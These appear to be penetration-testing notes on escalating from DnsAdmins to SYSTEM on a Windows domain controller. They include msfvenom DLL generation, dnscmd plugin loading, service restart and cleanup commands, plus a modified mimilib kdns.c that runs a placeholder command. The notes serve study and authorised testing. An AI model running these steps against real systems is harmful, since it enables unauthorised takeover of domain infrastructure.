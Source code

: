 How do we do this?
1. `msfvenom -p windows/x64/exec cmd='<COMMAND_PAYLOAD_HERE>' -f dll -o payload.dll` - generate malicious DLL
2. Download to target domain controller
3. `dnscmd.exe /config /serverlevelplugindll C:\PATH\TO\payload.dll` - Load DLL (as member of DNS Admins), note the path must be **full**

Unfortunately, the only remaining obstacle is to restart the DNS service. There's a fair chance that we are granted this permission since we're a DNS Admin, but it's not enabled by default. If not, then need to find another way of retsrating the service or waiting for a syadmin to do it.

Check privileges: `sc sdshow DNS`, compare against link in Windows Services section.

If allowed, then use `sc stop DNS` and `sc start DNS`

**This attack is very destructive!!** so we should obtain explicit consent for this attack *and* we need to clean up. We need to run the following with admin privileges:

1. `reg query [\\<IP_IF_REMOTE>\]HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters` - confirm the plugin DLL is added to registry key
2. `reg delete [\\<IP_IF_REMOTE>\]HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters /v ServerLevelPluginDll` - delete the entry
3. Restart DNS service
4. `sc query dns` - confirm the restart was successful

Another attack that can be considered is using mimilib.dll to gain command execution by modifying the `kdns.c` file to execute as SYSTEM. This is described in this blog post and we can use the script below as a payload (ripped off HTB again):

```
/*	Benjamin DELPY `gentilkiwi`
	https://blog.gentilkiwi.com
	benjamin@gentilkiwi.com
	Licence : https://creativecommons.org/licenses/by/4.0/
*/
#include "kdns.h"

DWORD WINAPI kdns_DnsPluginInitialize(PLUGIN_ALLOCATOR_FUNCTION pDnsAllocateFunction, PLUGIN_FREE_FUNCTION pDnsFreeFunction)
{
	return ERROR_SUCCESS;
}

DWORD WINAPI kdns_DnsPluginCleanup()
{
	return ERROR_SUCCESS;
}

DWORD WINAPI kdns_DnsPluginQuery(PSTR pszQueryName, WORD wQueryType, PSTR pszRecordOwnerName, PDB_RECORD *ppDnsRecordListHead)
{
	FILE * kdns_logfile;
#pragma warning(push)
#pragma warning(disable:4996)
	if(kdns_logfile = _wfopen(L"kiwidns.log", L"a"))
#pragma warning(pop)
	{
		klog(kdns_logfile, L"%S (%hu)\n", pszQueryName, wQueryType);
		fclose(kdns_logfile);
	    system("ENTER COMMAND HERE");
	}
	return ERROR_SUCCESS;
}
```
